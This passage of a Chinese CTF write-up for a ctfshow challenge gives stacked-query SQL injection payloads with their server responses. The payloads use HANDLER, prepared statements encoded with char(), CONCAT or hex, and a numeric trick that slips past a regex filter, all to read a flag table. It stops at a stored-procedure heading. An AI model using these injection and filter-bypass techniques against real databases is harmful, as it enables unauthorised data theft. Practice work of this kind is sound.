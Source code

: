 #### handler

handler 解法
payload1: `ctfshow';show tables%23`

`{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"id":"1","username":"ctfshow","pass":"ctfshow"},{"Tables_in_ctfshow_web":"ctfshow_flagasa"},{"Tables_in_ctfshow_web":"ctfshow_user"}]}`

payload2: `ctfshow';handler ctfshow_flagasa open as t;handler t read first;handler t close%23`

登录后复制
`{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"id":"1","username":"ctfshow","pass":"ctfshow"},{"id":"1","flagas":"ctfshow{83599e7a-ba35-4ce6-88a1-6e1c69755ccb}","info":"you get it"}]}`

#### 预处理

预处理解法
concat 和 char 都可以绕过过滤。

```python
def make_payload(sql: str) -> str:
    return f"ctfshow';prepare n from char({','.join(str(ord(c)) for c in sql)});execute n%23"
```

也可以concat``Prepare stmt from CONCAT('se','lect * from `ctfshow_flagasa`;');EXECUTE stmt;``

这是char：
payload1: `make_payload("show tables;")`

`{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"id":"1","username":"ctfshow","pass":"ctfshow"},{"Tables_in_ctfshow_web":"ctfshow_flagasa"},{"Tables_in_ctfshow_web":"ctfshow_user"}]}`

payload2: `make_payload("select * from ctfshow_flagasa;")`

`{"code":0,"msg":"\u67e5\u8be2\u6210\u529f","count":1,"data":[{"id":"1","username":"ctfshow","pass":"ctfshow"},{"id":"1","flagas":"ctfshow{83599e7a-ba35-4ce6-88a1-6e1c69755ccb}","info":"you get it"}]}`

concat 或 char 函数可以用 0x 代替

```python
def make_payload(sql: str) -> str:
    return f"user1';prepare n from 0x{sql.encode().hex()};execute n%23"
```

other:

```bash
'abc' 等价于unhex(hex(6e6+382179)); 可以用于绕过大数过滤（大数过滤：/\d{9}|0x[0-9a-f]{9}/i）
具体转换的步骤是：
  1. abc转成16进制是616263
  2. 616263转十进制是6382179
  3. 用科学计数法表示6e6+382179 
  4. 套上unhex(hex())，就是unhex(hex(6e6+382179));
```

#### mysql存储过程
